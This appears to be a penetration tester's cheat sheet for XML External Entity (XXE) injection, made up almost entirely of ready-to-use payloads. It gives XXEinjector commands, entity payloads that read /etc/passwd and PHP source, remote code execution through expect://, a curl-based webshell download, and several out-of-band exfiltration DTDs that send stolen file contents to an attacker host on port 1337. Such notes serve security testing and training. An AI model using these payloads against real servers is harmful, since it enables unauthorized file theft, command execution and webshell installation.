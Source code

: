 # XXE

## Tips
- Check if there are requests sending XML to the backend, ideally where the backend doesn't sanitise
- Check if some fields from the xml are displayed on the page to inject into
- Check if changing the content-type to `application/xml` works ([json2xml](https://www.convertjson.com/json-to-xml.htm))

## XXEinjector
- [XXEinjector](https://github.com/enjoiz/XXEinjector)

Copy a XML request from BURP and replace all of the xml except the top line with `XXEINJECT`

```
...
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

```
ruby XXEinjector.rb --host=<attacker-ip> --httpport=8000 --file=/req.txt --path=/etc/passwd --oob=http --phpfilter
```

### Detection
Check if you can read a variable from a DDT definition
```xml
<!DOCTYPE somefield [
  <!ENTITY xxe "vulnerable">
]>
&xxe;
```

### Basic file read
```xml
<!DOCTYPE somefield [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```

### Read PHP files
```xml
<!DOCTYPE somefield [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

### RCE
```xml
<!DOCTYPE somefield [
  <!ENTITY xxe SYSTEM "expect://id">
]>
```
#### Inject a webshell
```xml
<!DOCTYPE somefield [
  <!ENTITY xxe SYSTEM "expect://curl$IFS-O$IFS'<ip>/shelle.php'">
]>
```

#### CDATA exfiltration
Host this snippet in a file on a http server
```xml
<!ENTITY joined "%begin;%file;%end;">
```
```xml
<!DOCTYPE somefield [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % end "]]>"> 
  <!ENTITY % xxe SYSTEM "http://<attacker-ip>:1337/joined.dtd">
  %xxe;
]>
```
```xml
<somefield>&joined;</somefield>
```

#### Error based
 - Check if sending malformed data triggers useful error messages

Host a DTD file containing something like this
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % error "<!ENTITY content SYSTEM '%whatever;/%file;'>">
```

Then reference it
```xml
<!DOCTYPE somefield [ 
  <!ENTITY % xxe SYSTEM "http://<attacker-ip>:1337/error.dtd">
  %xxe;
  %error;
]>
```

#### Out of band blind exfiltration
See also DNS OOB Exfiltration.

Host a DTD file containing something like this
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % xxe "<!ENTITY content SYSTEM 'http://<attacker-ip>:1337/?content=%file;'>">
```
Inject this
```xml
<!DOCTYPE somefield [ 
  <!ENTITY % oob SYSTEM "http://<attacker-ip>:1337/oob.dtd">
  %oob;
  %xxe;
]>
```
Don't forget to reference the `content` field in the xml